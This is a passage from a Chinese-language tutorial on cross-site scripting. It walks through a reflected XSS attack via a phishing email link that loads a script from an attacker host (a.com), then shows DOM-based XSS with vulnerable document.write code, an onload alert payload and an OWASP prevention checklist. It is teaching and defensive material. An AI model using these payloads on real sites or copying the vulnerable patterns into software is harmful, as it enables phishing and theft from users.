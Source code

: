 攻击流程示例：

1. 恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：

    ```markup
    welcome <%=param["user"] %>!
    ```
1. 恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：

    ```html
    {系统B}温馨提醒您：XXX 想加您好友，请点击
    <a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
    进行处理！
    ```

1. 后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本



### DOM Based XSS
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：

```html
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
```

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点 

1. 客户端：来自用户输入，却未作安全检查。

    ```html
    <img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
    ```

2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

## 防范XSS
在Web应用中，XSS缺陷很难确认和移除，一些漏洞扫描工具也只能对浅层的扫描。最好的方式就是针对安全展开代码Review，并对所有来自HTTP请求的数据进行检查，如果请求中的数据有可能最终作为HTML显示，就需要做相应的处理。

## 检查列表
这里仅仅给出了部分摘要，更详尽列表请参看 《[XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)》：

1. RULE #0 - 不信任的数据只能插入到允许的位置。 示例代码：

    ```
      <script>...NEVER PUT UNTRUSTED DATA HERE...</script>   直接放到script中
      &lt;!--...NEVER PUT UNTRUSTED DATA HERE...-->          在HTML注释中
      <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       在属性名中
      <NEVER PUT UNTRUSTED DATA HERE... href="/test" />      在标签名中
      <style>...NEVER PUT UNTRUSTED DATA HERE...</style>     直接在CSS中
    ```
